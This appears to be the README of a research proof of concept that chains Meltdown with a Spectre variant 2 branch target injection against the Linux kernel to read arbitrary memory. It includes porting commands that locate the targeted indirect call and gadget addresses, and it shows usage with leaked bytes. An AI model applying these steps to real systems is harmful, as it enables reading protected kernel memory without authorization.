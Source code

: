 # A Meltdown + Spectre PoC that allows reading un-cached memory

This PoC combines Meltdown together with a Branch Target Injection (BTI, Spectre variant 2) in order to read any virtual memory address on the system (cached or un-cached).

The BTI is done into the running kernel, causing it to speculatively access any memory address that we'd like. This speculative access places the targeted data into the L1 cache. At that point it's easy to read the memory out using Meltdown, as described in the Meltdown whitepaper. 

# Limitations

1. This is for Linux only. Porting the same concept to other OSs should be trivial.
2. There is no regard here for KASLR. However, other tools exist (as part of other Meltdown PoCs) that do this.
3. You need to get a copy of the running kernel image and symbols.

# Porting

This PoC has to be ported to your running kernel.
We need to obtain the kernel image. On my Ubuntu running a mainline kernel, I did something like:

    $ dpkg -S /boot/vmlinuz-`uname -r`
    linux-image-4.12.14-041214-generic: /boot/vmlinuz-4.12.14-041214-generic

Then obtain the deb file from http://kernel.ubuntu.com/~kernel-ppa/mainline/. Extract it uisng dpkg-deb.
Alternatively, let's cheat and just get it as root from:

    $ sudo cp /boot/System.map-`uname -r` .
    $ sudo cp /boot/vmlinuz-`uname -r` .
    $ sudo chmod ugo+x vmlinuz-* System.map-*
    
Extract vmlinuz:

    $ wget -O extract-vmlinux https://raw.githubusercontent.com/torvalds/linux/master/scripts/extract-vmlinux && chmod +x extract-vmlinux
    $ ./extract-vmlinux vmlinuz-* > vmlinux
    
Now find the symbol of the function that contains the indirect call we're going to attack with BTI:

    $ grep security_file_fcntl System.map-*
    ffffffff8138fcb0 T security_file_fcntl
    
Using this address, find the target callq in the function.

    $ objdump -d vmlinux | grep 'ffffffff8138fcb0:' -A 30 | grep 'callq.*\*' -A 1 | head -n2
    ffffffff8138fcf0:       ff 53 18                callq  *0x18(%rbx)
    ffffffff8138fcf3:       85 c0                   test   %eax,%eax
    
Additionally, find a gadget close by that derefs %rdx

    $ objdump -d vmlinux | grep 'ffffffff8138fcb0:' -A 20000 | grep 'mov[^,]*(%rdx' | head -n1
    ffffffff81392126:       48 8b 02                mov    (%rdx),%rax

These are the addresses needed to port the exploit. In this case, set the value CALL_ADDR_NEXT_INST to 0xffffffff8138fcf3 (this is the addr of the instruction *after* the call), and GADGET_ADDR to 0xffffffff81392126. These constants are in doit.c

At last, we'll cheat (due to no KASLR bypass) to retrieve the ASLR base

    $ sudo cat /proc/kallsyms | grep _stext
    ffffffff92a00000 T _stext
    
# Usage
    ./build.sh  
    tasket 0x1 ./doit <aslr_base> <virt_addr> <len>
  
    $ taskset 0x1 ./doit 0xffffffff92a00000 0xffffffff92c47cc0 0x20
    0f 1f 44 00 00 55 48 89 e5 41 56 41 55 41 54 53
    49 89 f5 49 89 d6 48 83 ec 18 65 48 8b 04 25 28

# How this works
Fist of all, this PoC implements the basic version of Meltdown, from the Meltdown whitepaper. However this attack is limited to only reading data from the L1D cache (as explained by Google Project Zero). To overcome this limitation, this PoC uses an additional Spectre BTI attack against the kernel.

The attacked indirect call in the kernel is located in security/security.c:

    int security_file_fcntl(struct file *file, unsigned int cmd, unsigned long arg)
    {
    	return security_ops->file_fcntl(file, cmd, arg);
    }
    
Here, if security_ops points to un-cached memory, the indirect call will be guessed by the CPU (as explained in the Spectre writeups). It's easy to reach this code via the fcntl() syscall.

The attacker controls the *arg* param in this call via the syscall API. The *arg* param will be passed on the %rdx register (per the x86_64 ABI). If *arg* is set to be a pointer, and the BTI causes the indirect call to speculatively execute a gadget that derefs %rdx, the memory *arg* points to will then become cached.

After that the regular Meltdown attack can read the memory.
